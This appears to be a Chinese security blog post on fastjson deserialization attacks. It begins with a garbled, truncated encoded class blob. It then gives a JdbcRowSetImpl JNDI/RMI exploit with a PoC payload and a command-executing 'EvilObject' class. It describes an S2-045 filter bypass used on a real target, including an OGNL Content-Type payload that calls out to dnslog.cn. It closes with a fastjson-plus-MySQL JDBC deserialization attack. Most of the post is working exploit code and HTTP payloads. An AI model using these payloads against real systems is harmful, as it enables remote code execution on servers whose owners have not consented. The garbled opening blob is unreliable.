fcP$c5$dd$cb$Ta$97$o$cb$3dQ$5c$3e$82$bcAd$97$tQp$M$B$ff$Zo$i$dc$e2$3b$c3$5dO$b3$m$r$A$b7a$S$ffS$e4c$Ou$98$ebJ$d7$3c$Ox$b9$eb$p$n$d3$8f$acI$Sv$K$8fI$5c$GE$f2$o$f1Df$3d$82l$c1H$aa$y$c9_r$g$93$H$915$o$3c$e4$h$81$ffl$f90$a6$i$97B$5c$bb$8c$87$G$a1R$85$a9I$84$8e$e1$409$fd$cb$85$e04$ffS$u$dc$ea$LN$P$tQT$ceI1$t$r$9c$cc$b8$84$e9C$b8e$Q$b7$5c$86$w$a21$802$f2$n$83$e0$ad$3e$9e$nys$F$X8$$$s5C$c5P4$7b$84$8b$9b$x$92$985$80r$d1$cf$Z$c0l$d1$cf$h$401$d5$ba$8c$a9$83$d0$ae$x$oS$R$9f$abs$b7$absG$f0$f6a$ccO$a24X$96D$f91$u$c1$F$D$I$E$x$9ay$uX$99$SL$ca$94$d8K$a8j$a9$bc$80$ea$ad$c3XHU$93X$94$c4$e2$8asxQpI$Sw$q$b14$89$3b$x$93$b8$8b$df$b2$B$f8$9b$cf$96$97$f8w$ba8$J$a0$D$P$e0$m$fd$bf$I$P$e3Q$c6$40$f4G$f8$bfN$f4$t$Y$8b$Ri$a64$87$fb$5e$b4$k$e7$K0$9fQ$x$r$82$ca$Z$9f$F$a8$q$82$W$R$M$9b$88$96$ed$iu$e0$O$d8XJ$be$b5$e4$7c$t$fa$b1$8c$bc$ea$c9$fdn$i$c2$K$3c$c6$f1$R$ac$c4Q$ac$c2$T$i$9f$40$jN2$9b$9e$e4$f84$b3$u$c9$i$3a$cf$8c$Za$be$5ca$c6$5cE$8b4$9d$8f$d3$Zh$95f$oLm$da$a4$b9h$97$e6a$8bTAD$K$b4$ec$40$OeN$a2l$83$80$e8wQ$db$c9$d1$nwdrt$d4$j$ed$e2$e8$a4$3b$ea$e2$e8$K$a5vSB$We$94$o$82$dd$b4$92$Q$c2$k$Xsb$UE$Pq$u$d0W$8a$fc$m$fe$85$96$9d2b$fe$d52$acu2z$f9$ed$95$a7$cd$ac$93a$3f$87$b5$dc$Ba$u$Q$9a$93E$s$e0q$81$d2$f8$uJ$a5$7b$d8k$5c$eb$X$91$Xp$a8i$a9$bc$b8$d4$ef$5b$g$I$FB$feS0$xC$81$c55$d9E$d9$fe$qj$a5$g$b9H$a4$cbr$f6$b2$8b$94$bb$8fC$x$92K$86$b1b$A$d5E$f2$r$ac$e4$afF$vR$$$$$cd$f1$zUCj$u$e7$U$a6$V$v$nuqMnQ$ae$m$ecW$a5$81$e7$9f$rxj$94$fe$A$87$c7$vt$d5$d6$e6$cb$cf$3f$u$8a$c4$7cXt$dbhpW3$B$85$x$DL$e4$5b$99asi$ca$7c$ba$b4$9a$ae$ac$a1$T$eb$e94$83$O$8b$b0$b7h$abM$e78$a4$bd$X$7bq$lg$H9$T$c1XA$t$Y$fc$i$ba1$97$i$9a$5d$87$ca$e4$b9$Z$J$ec$e3$O$3d$80$3e$cf$c9$iyN$O$e0$7e$ecg$d8$b3$5cwWA$f97$C2$O$5cC$ae$8c$7b$r$e9$3fX$q$e3$3e$Z$af$b8$86$C$Z$x$r$e9$w$8a$Y$86$d8$3f$c1Q$60$d4$e9$7d$v$a7$xx$e5$f5$8a$3a$db$ad$q$M$E$abc$SuC$90$cf$8a$e0$ba$sg$bb$7b$K$dbW$b9$d5$fb$fe$ff$Ctz$ebem$R$A$A" } } : "xxx" } }

jdbcRowSetImpl链条分析 影响范围：fastjson <= 1.2.24
我们在平时使用中用的最多的应该就是jdbcRowSetImpl这条链。
jdbcRowSwtImpl这条链用到了jndi+rmi/ldap。
一些前置知识：
Jndi(Java Naming and Directory Interface)是一组应用程序接口，它为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定位用户、网络、机器、对象和服务等各种资源。JNDI 是应用程序设计的 Api，可以根据名字动态加载数据，支持的服务主要有以下几种：DNS、LDAP、 CORBA对象服务、RMI。
一个简单的rmiServer demo：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 import com.sun.jndi.rmi.registry.ReferenceWrapper;import javax.naming.NamingException;import javax.naming.Reference;import java.rmi.AlreadyBoundException;import java.rmi.RemoteException;import java.rmi.registry.LocateRegistry;import java.rmi.registry.Registry;public class RMIServer public static void main (String[] args) throws RemoteException, NamingException, AlreadyBoundException Registry registry = LocateRegistry.createRegistry(1099 ); System.out.println("Java RMI registry created. port on 1099" ); Reference reference = new Reference("Object" , "Object" , "http://127.0.0.1:8000/" ); ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference); registry.bind("Exploit" , referenceWrapper); } }
FjPoc.java
1 2 3 4 5 6 7 8 9 10 11 12 13 import com.alibaba.fastjson.JSON;public class FjPoc public static void main (String[] args) String PoC = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"dataSourceName\":\"rmi://127.0.0.1:1099/Object\", \"autoCommit\":true}" ; JSON.parse(PoC); } }
需要实例化的恶意class文件：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 import java.io.IOException;public class EvilObject public EvilObject () } static { try { Runtime.getRuntime().exec("open -a Calculator" ); } catch (IOException e) { e.printStackTrace(); } } }
1.启动rmiServer
2.python起一个web服务 python3 -m http.server 8000
3.运行FjPoc请求我们启动rmi恶意服务。

分析：
定位到：lib/rt.jar!/com/sun/rowset/JdbcRowSetImpl.class

跟进this.connect()。

1 this.getDataSourceName()
this.getDataSourceName()获取到了我们传入的rmi链接。然后请求我们的rmi恶意服务，

jdbcRowSetImpl链调用流程 ：
1 JdbcRowSetImpl#setAutoCommit()->this .conn=this .connect()->JdbcRowSetImpl#lookup()->RegistryContext#decodeObject()->NamingManager#getObjectFactoryFromReference()->VersionHelper12#loadClass()

扩展，利用jdbcRowSetImpl绕过s2-045限制 再一次实战中遇到一个s2-045的站点。poc探测有回显，但是exp却无法执行成功，推测服务端通过filter的方式对Content-type的内容进行安全检查，检测到java.lang.ProcessBuilder等危险函数就进行了拦截。
尝试进行绕过：
首先通过java.net.InetAddress@getByName判断出出网。
1 2 3 4 5 6 7 8 GET /license!getExpireDateOfDays.action HTTP/1.1 Host: x.x.x.x:89 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4 ) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0 .3729 .169 Content-Type:%{(#_='multipart/form-data' ).(#_memberAccess=@ognl .OgnlContext@DEFAULT_MEMBER_ACCESS ).(@java .net.InetAddress@getByName("qcjfgq.dnslog.cn") )}.multipart/form-data; Accept-Encoding: gzip, deflate Connection: close

利用jdbcRowSetImpl链进行jndi注入。
利用fastjson_tool.jar起一个ldap恶意服务。

Post payload:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 GET /license!getExpireDateOfDays.action HTTP/1.1 Host: x.x.x.x:89 Pragma: no-cache Cache-Control: no-cache Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10 _15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0 .4515 .159 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9 ,image/avif,image/webp,image/apng,*

fastjson配合jdbc序列化 jdbc序列化之前在实战中也遇到过两次，感觉还是比较实用的，只要能控制mysql的jdbc链接，就能控制mysql客户端链接我们的恶意mysql服务，造成序列化漏洞。

详情可以看丁师傅的文章：https://xz.aliyun.com/t/9250
今年的blankhat上面，玄武实验室披露了几条fastjson利用jdbc序列化的链条。

简单复现一下。
采用该项目来当mysql恶意服务端：
https://github.com/fnmsd/MySQL_Fake_Server
本地测试demo：
maven包
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <dependencies > <dependency > <groupId > com.alibaba</groupId > <artifactId > fastjson</artifactId > <version > 1.2.68</version > </dependency > <dependency > <groupId > mysql</groupId > <artifactId > mysql-connector-java</artifactId > <version > 5.1.12</version > </dependency > <dependency > <groupId > commons-collections</groupId > <artifactId > commons-collections</artifactId > <version > 3.1</version > </dependency > </dependencies >
Fastjson1.2.68版本，cc3.1是为了用cc6执行命令。只有5.1.11至5.1.48可反序列化。
Demo：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 package com.example.fj_mysql_springboot_demo.controller;import com.alibaba.fastjson.JSON;import org.springframework.web.bind.annotation.*;@RestController public class FastJsonVuln @RequestMapping(value = "/fastjson",method = RequestMethod.POST) public void fj_poc_test (@RequestBody String data) throws Exception JSON.parse(data); JSON.parseObject(data); System.out.println(data); } @RequestMapping("/hello") public String hello () return "hello world" ; } }
启动springboot web服务。
post数据包即可：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 POST /fastjson HTTP/1.1 Host: www.localhost.com:8080 Pragma: no-cache Cache-Control: no-cache Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10 _15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0 .4515 .159 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9 ,image/avif,image/webp,image/apng,*

参考链接： https://mp.weixin.qq.com/s/BRBcRtsg2PDGeSCbHKc0fg
https://github.com/safe6Sec/Fastjson
https://mp.weixin.qq.com/s/1zUihQl8gw-UlO8FH97ukw
https://mp.weixin.qq.com/s/amFZ4H0mwGxVLFc33kH1OA

 alipay
alipay